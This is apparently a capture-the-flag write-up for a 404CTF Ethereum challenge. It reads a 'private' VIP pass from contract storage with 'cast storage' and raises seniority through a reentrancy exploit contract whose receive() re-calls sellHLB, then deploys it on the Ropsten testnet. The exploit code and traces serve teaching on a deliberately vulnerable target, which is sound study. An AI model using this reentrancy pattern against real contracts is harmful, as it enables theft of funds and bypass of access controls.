

<!--more-->

## Statement

The challenge statement is as follows:

> Agent, now that you have a little more web3 expertise, we would like to call upon your skills in a more delicate situation. We have detected traces of suspicious activity at the address 0xD5c0873f147cECF336fEEF1a28474716C745Df86. Hallebarde is apparently trying to create its own cryptocurrency. Also, it seems that the oldest members of Hedgehog can get some kind of VIP pass. Use this pass to get information only known by the elite of Halberd.
>
> Contract at: 0xD5c0873f147cECF336fEEF1a28474716C745Df86
>
> Ropsten test network
>
> Author: Soremo
>
> nc challenge.404ctf.fr 30885


The source code of the smart contract is given:

```solidity
pragma solidity 0.8.13;
// solidity > 0.8.0 is using SafeMath by default. No integer underflow or overflow.

interface IERC20 {

    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function allowance(address owner, address spender) external view returns (uint256);

    function transfer(address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);

    event Transfer(address indexed from, address indexed to, uint256 value);
    event Approval(address indexed owner, address indexed spender, uint256 value);
}


contract HallebardeToken is IERC20 {
    using SafeMath for uint256;

    string public constant name = "Hallebarde";
    string public constant symbol = "HLB";
    uint8 public constant decimals = 18;

    mapping(address => uint256) balances;
    mapping(address => mapping (address => uint256)) allowed;
    mapping(address => uint256) seniority;
    mapping(address => uint256) lastWithdrawTime;

    uint256 private vipPass;
    address private boss;
    uint256 totalSupply_;

    constructor(string memory _password) public {
   totalSupply_ = 1000000 ether;
   balances[msg.sender] = 1000 ether;
   balances[address(this)] = 999000 ether;
   seniority[msg.sender] = 10*365 days;
   boss = msg.sender;
   rand(_password);
    }

    function rand(string memory _password) public onlyOwner {
   vipPass = uint(keccak256(abi.encodePacked(
   msg.sender,
   block.timestamp,
   block.difficulty,
   vipPass,
   balances[address(this)],
   _password)));
    }

    function totalSupply() public override view returns (uint256) {
   return totalSupply_;
    }

    function balanceOf(address tokenOwner) public override view returns (uint256) {
   return balances[tokenOwner];
    }

    function seniorityOf(address tokenOwner) public view returns (uint256) {
   return seniority[tokenOwner];
    }

    // buyHLB to get HLB token.
    function buyHLB() public payable {
   require(msg.value > 0, "Vous avez besoin d'ethereum pour acheter des HLB.");
   require(balances[address(this)] >= msg.value, "Il n'y a plus assez de HLB disponible. Revenez plus tard.");
   balances[msg.sender] = balances[msg.sender].add(msg.value);
   balances[address(this)] = balances[address(this)].sub(msg.value);
    }

    // sellHLB to sell HLB token. We can sell token once per year.
    function sellHLB(uint256 numTokens) public {
   // Check if we have enough token to sell
   require(balances[msg.sender] >= numTokens);
   // Check the last time we sold HLB
   require(block.timestamp >= lastWithdrawTime[msg.sender] + 365 days, "Vous devez attendre un an entre chaque retrait.");

   // Call the function transfer below to update the balance of the receiver and the sender.
   transfer(address(this), numTokens);
   // Update the seniroty of the user. The seniority is used to get the vip pass.
   seniority[msg.sender] = seniority[msg.sender].add(365 days);
   // Send ether to the remote address. The fallback function is used to send ether to the contract.
   (bool sent, ) = msg.sender.call{value: numTokens}("");
   require(sent, "Erreur lors de l'envoi de l'ethereum.");
   // Update the last time we sold HLB. This is used to check if we can sell HLB again.
   lastWithdrawTime[msg.sender] = block.timestamp;
    }

    function transfer(address receiver, uint256 numTokens) public override returns (bool) {
   require(numTokens <= balances[msg.sender]);
   balances[msg.sender] = balances[msg.sender].sub(numTokens);
   balances[receiver] = balances[receiver].add(numTokens);
   emit Transfer(msg.sender, receiver, numTokens);
   return true;
    }

    function approve(address delegate, uint256 numTokens) public override returns (bool) {
   allowed[msg.sender][delegate] = numTokens;
   emit Approval(msg.sender, delegate, numTokens);
   return true;
    }

    function reset() external returns (string memory){
   balances[msg.sender] = 0;
   seniority[msg.sender] = 0;
   lastWithdrawTime[msg.sender] = 0;
   return "Pas d'argent pour les impatients !";
    }

    function allowance(address owner, address delegate) public override view returns (uint256) {
   return allowed[owner][delegate];
    }

    function transferFrom(address owner, address buyer, uint256 numTokens) public override returns (bool) {
   require(numTokens <= balances[owner]);
   require(numTokens <= allowed[owner][msg.sender]);

   balances[owner] = balances[owner].sub(numTokens);
   allowed[owner][msg.sender] = allowed[owner][msg.sender].sub(numTokens);
   balances[buyer] = balances[buyer].add(numTokens);
   emit Transfer(owner, buyer, numTokens);
   return true;
    }

    // senior function to get the vip pass.
    function senior() external view returns (uint256) {
   require(seniority[msg.sender] >= 10 * 365 days, "Revenez dans quelque temps.");
   require(seniority[msg.sender] < 150 * 365 days, "Vous vous faites vieux, laissez-nous la place.");
   return vipPass;
    }

    fallback () external payable  {
   revert();
    }

    modifier onlyOwner() {
   require(msg.sender == boss);
    _;
    }

}

// SafeMath to avoid integer underflow or overflow
library SafeMath {
    function sub(uint256 a, uint256 b) internal pure returns (uint256) {
 assert(b <= a);
 return a - b;
    }

    function add(uint256 a, uint256 b) internal pure returns (uint256) {
 uint256 c = a + b;
 assert(c >= a);
 return c;
    }
}
```

Comment has been added on the function that will be exploited.

## Exploitation

### VipPass

By seeing this contract, the goal was pretty clear. We want to get the vip pass. One thing that should never be forgotten in solidity:

> Nothing is private in smart contracts!

The public variable can be accessed easly with call instruction. In other hand, the private variable can be accessed only with the function rpc function `eth_getStorageAt` (the name may be different depending of the client). The slot storage are explains in depth in [soliditylang](https://docs.soliditylang.org/en/v0.8.7/internals/layout_in_storage.html).

Basically, compare to other types, uint256 is easy to understand. Its position slot is the position of the declared variable (note that the mapping does not count). In our case `uint256 private vipPass;` is at position **4**, the variable `boss` (the owner of the contract) is at position **5**.

To access the variable `vipPass`, we will use cast from the foundry binaries:

```bash
$ # cast storage <contract address> <slot number>
$ cast storage 0xD5c0873f147cECF336fEEF1a28474716C745Df86 4
0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080
```

The function `senior()` returns the vipPass as an `uint256` value. The `cast storage` command returns the value as a hexadecimal string. We can either use an [online converter](https://www.rapidtables.com/convert/number/hex-to-decimal.html) or solidity (with foundry dependencies).

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
contract ContractTest is Test {
    function convert() public {
   //address test = address(0x9A5a04eCC45BB46877ADcd1Fa4dB82C08D1bd080);
   //uint256 test2 = uint256(uint160(test));
   uint256 test3 = 0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080;
   emit log_named_uint("test2: ", test3);
    }
}
```

This contract can be executed with the `forge` command:

```bash
$ forge run test/Converter.t.sol --fork-url http://127.0.0.1:8545 --sig "convert()"
[⠒] Compiling...
[⠆] Compiling 6 files with 0.8.13
[⠰] Solc 0.8.13 finished in 2.05s
Compiler run successful
Script ran successfully.
Gas used: 2108
== Return ==
== Logs ==
  test2: : 38330739118242568697380065849010598905319469511070891991863930858741423657088
```

Unfortunately, the vipPass is not the only thing that is required, we need to have an address that is VIP:

```bash
nc challenge.404ctf.fr 30885
Si vous êtes un membre, appuyez sur entrée. Si vous êtes un VIP, rentrez votre pass :
38330739118242568697380065849010598905319469511070891991863930858741423657088
Nous allons maintenant vérifier que vous êtes bien un vip.
Veuillez rentrer l'adresse ethereum avec laquelle vous êtes vip :
```

### Pwning the contract

To get VIP we have to pass two requires: `require(seniority[msg.sender] >= 10 * 365 days, "Revenez dans quelque temps.");` and `require(seniority[msg.sender] < 150 * 365 days, "Vous vous faites vieux, laissez-nous la place.");`.

The only function that update the seniroity mapping is `function sellHLB(uint256 numTokens)`. This function can only be called once a year and if we have already some HLB tokens. Before updating the `lastWithdrawTime` variable to restrict the call to that function, the fallback to our contract is called, which can call the `sellHLB(uint256 numTokens)` function. In other words, we can call the function `sellHLB(uint256 numTokens)` multiple times before the `lastWithdrawTime` function is updated, this is a reentrency attack!

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "ds-test/test.sol";
import "forge-std/Test.sol";

interface IHallebardeToken {
    function sellHLB(uint256 numTokens) external;

    function seniorityOf(address tokenOwner) external view returns (uint256);

    function balanceOf(address tokenOwner) external returns (uint256);

    function buyHLB() external payable;

    function senior() external view returns (uint256);
}

contract TokenTest is Test {
    uint256 i = 0;
    IHallebardeToken ht =
   IHallebardeToken(address(0xD5c0873f147cECF336fEEF1a28474716C745Df86));

    constructor() payable {}

    function pwn() public {
        ht.buyHLB{value: 12}();
        ht.sellHLB(1);
        ht.senior();
    }

    receive() external payable {
        emit log_named_uint(
            "seniority",
            ht.seniorityOf(address(this)) / 365 days
        );
        if (i <= 8) {
            i++;
            ht.sellHLB(1);
        }
    }
}
```

Running the above script with forge:

```bash
forge run test/token.t.sol --fork-url http://127.0.0.1:8545 --sig "pwn()" -vvvv
```

returns the following output:

<div class="table-wrapper">
<pre><b>[</b><font color="#4E9A06"><b>⠒</b></font><b>]</b> Compiling...    
<b>[</b><font color="#4E9A06"><b>⠢</b></font><b>]</b> Compiling 6 files with 0.8.13    
<b>[</b><font color="#4E9A06"><b>⠰</b></font><b>]</b> Solc 0.8.13 finished in 2.02s  
Compiler run successful
Traces:   
  [278997] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">pwn</font>()    
    ├─ [28455] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">dbd6bdcb</font>{value: 12}()   
    │   └─ <font color="#4E9A06">← </font>()
    ├─ [234688] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)    
    │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>
    │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font> 
    │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font> 
    │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>
    │   ├─ [198085] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  
    │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>  
    │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000001e13380 
    │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 1)   
    │   │   ├─ [171914] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)  
    │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>   
    │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>    
    │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>  
    │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font> 
    │   │   │   ├─ [159211] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  
    │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>  
    │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000003c26700 
    │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 2)   
    │   │   │   │   ├─ [154940] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)  
    │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>   
    │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>    
    │   │   │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>    
    │   │   │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>    
    │   │   │   │   │   ├─ [142237] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()
    │   │   │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>
    │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000005a39a80  
    │   │   │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 3) 
    │   │   │   │   │   │   ├─ [137966] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)
    │   │   │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>    
    │   │   │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>
    │   │   │   │   │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>
    │   │   │   │   │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>    
    │   │   │   │   │   │   │   ├─ [125263] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()
    │   │   │   │   │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>  
    │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x000000000000000000000000000000000000000000000000000000000784ce00    
    │   │   │   │   │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 4) 
    │   │   │   │   │   │   │   │   ├─ [120992] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)  
    │   │   │   │   │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>   
    │   │   │   │   │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>    
    │   │   │   │   │   │   │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>    
    │   │   │   │   │   │   │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>   
    │   │   │   │   │   │   │   │   │   ├─ [108289] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()    
    │   │   │   │   │   │   │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>    
    │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000009660180   
    │   │   │   │   │   │   │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 5)
    │   │   │   │   │   │   │   │   │   │   ├─ [104018] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)
    │   │   │   │   │   │   │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font> 
    │   │   │   │   │   │   │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>  
    │   │   │   │   │   │   │   │   │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>  
    │   │   │   │   │   │   │   │   │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font> 
    │   │   │   │   │   │   │   │   │   │   │   ├─ [91315] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()   
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>  
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x000000000000000000000000000000000000000000000000000000000b473500 
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 6)   
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [87044] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)   
    │   │   │   │   │   │   │   │   │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>   
    │   │   │   │   │   │   │   │   │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>   
    │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [74341] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x000000000000000000000000000000000000000000000000000000000d286880   
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 7)
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [70070] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font> 
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font> 
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [57367] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font> 
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x000000000000000000000000000000000000000000000000000000000f099c00
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 8)  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [53096] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>   
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>   
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [40393] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>   
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000010eacf80  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 9)    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [36122] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">d16bb868</font>(0000000000000000000000000000000000000000000000000000000000000001)    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─  emit topic 0: <font color="#06989A">0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef</font>    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │  topic 1: <font color="#06989A">0x000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84</font>
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │  topic 2: <font color="#06989A">0x000000000000000000000000d5c0873f147cecf336feef1a28474716c745df86</font>
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │ data: <font color="#06989A">0x0000000000000000000000000000000000000000000000000000000000000001</font>    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [3519] <font color="#4E9A06">TokenTest</font>::<font color="#4E9A06">fallback</font>{value: 1}()  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [908] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">3b26d8d2</font>(000000000000000000000000b4c79dab8f259c7aee6e5b2aa729821864227e84) <font color="#C4A000">[staticcall]</font>
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>0x0000000000000000000000000000000000000000000000000000000012cc0300    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ emit <font color="#06989A">log_named_uint</font>(key: &quot;seniority&quot;, val: 10)
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>() 
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()    
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()   
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()  
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>() 
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()
    │   │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()    
    │   │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()   
    │   │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()  
    │   │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>() 
    │   │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()
    │   │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()    
    │   │   │   │   │   │   └─ <font color="#4E9A06">← </font>()   
    │   │   │   │   │   └─ <font color="#4E9A06">← </font>()  
    │   │   │   │   └─ <font color="#4E9A06">← </font>() 
    │   │   │   └─ <font color="#4E9A06">← </font>()
    │   │   └─ <font color="#4E9A06">← </font>()    
    │   └─ <font color="#4E9A06">← </font>()   
    ├─ [2952] <font color="#4E9A06">0xd5c0…df86</font>::<font color="#4E9A06">f15086e5</font>() <font color="#C4A000">[staticcall]</font>   
    │   └─ <font color="#4E9A06">← </font>0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080    
    └─ <font color="#4E9A06">← </font>()  


<font color="#4E9A06">Script ran successfully.</font>    
Gas used: 278997  
== Return == 
== Logs ==   
  seniority: 1    
  seniority: 2    
  seniority: 3    
  seniority: 4    
  seniority: 5    
  seniority: 6    
  seniority: 7    
  seniority: 8
  seniority: 9    
  seniority: 10
  </pre>
</div>

This output is typical of a reentrancy attack.

The final step is to deploy our contract to the **ropsten** blockchain and execute the pwn function. While deploying, ether has to be sent to the contract.

```bash
$ forge create --rpc-url https://ropsten.infura.io/v3/<API key>  --private-key <private key>
a4b7b56f3870d40feb26 test/token.t.sol:TokenTest --value 100 # value is required to send ether to the contract. Otherwise the buyHLB cannot work.
...
Deployer: 0xbafe3de2e4fbd28ce3d71db73b429cf13359f9e8
Deployed to: 0x0afd7d482b51834b1cad91c313d21425f1ad3f61
Transaction hash: 0xa927b9bc266083aed45944efef8bd147ebd0a50e681bd32c473beb1d4e7e2c3
7
```

The function pwn can then be called.

```bash
$ cast send 0x0afd7d482b51834b1cad91c313d21425f1ad3f61 "pwn()"
  --rpc-url https://ropsten.infura.io/v3/<API key> --private
-key <private key>
...
transactionHash         0x17621fe1437f1ec5e6f9533aaf864d7a60bae4d54293f21d5290982dc
42ea2bd
...
```



The attack is successful and the `seniority` variable has been updated multiple times before the `lastWithdrawTime` got updated.

We can now validate the challenge by specifying our contract address.
